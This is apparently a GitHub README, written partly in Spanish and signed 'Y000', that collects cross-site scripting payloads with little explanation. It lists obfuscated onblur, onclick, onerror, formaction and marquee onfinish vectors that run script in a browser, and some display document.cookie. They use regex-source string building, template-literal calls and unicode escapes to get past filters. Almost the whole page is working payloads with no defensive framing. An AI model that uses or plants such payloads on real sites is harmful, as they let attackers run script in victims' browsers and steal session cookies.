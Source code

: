### input + onblur + Obfuscation

```

<input onblur=top[/al/.source+/ert/.source]("_Y00!_") autofocus><input autofocus>

<input onblur=["_Y00!_"].find(alert) autofocus><input autofocus>

<input onblur=(((confirm)))("_Y00!_") autofocus><input autofocus>

```
### html + onclik + Alert Obfuscation

```
<p/onclick=%27new%20Function`al\ert\`\u0059\u0030\u0030\u0030\``%27>d

<p/onclick=self[`aler`%2b`t`]`\u0059\u0030\u0030\u0030`>d
```

### Xss dentro de un botón en form

`<form><button formaction=javascript&colon;alert('xss_by_Y000!')>_Y000!_`

`<marquee><form><button formacti\u006fn=javascript&colon;pr\u006fmpt('xss_by_Y000!')>_Y000!_</marquee>`

### fake captcha 

`<img/src=%27https://i.imgur.com/kkum7k2.jpg%27%20onmouseover=prompt("_Y000!_")`

### Img + Onerror

`<Img src="/" =_=" title=" onerror='prompt(document.cookie)'">`


### marcas


```
<marquee direction="down" width="250" height="200" behavior="alternate" style="border:solid">
  <marquee behavior="alternate">
    Xss by Y000
  </marquee>
 <marquee behavior="alternate">
    Y000
  </marquee>
</marquee>
```


### Marquee + alert

`<marquee loop=1 width=0 onfinish=pr\u006fmpt(document.cookie)>Y000</marquee>`
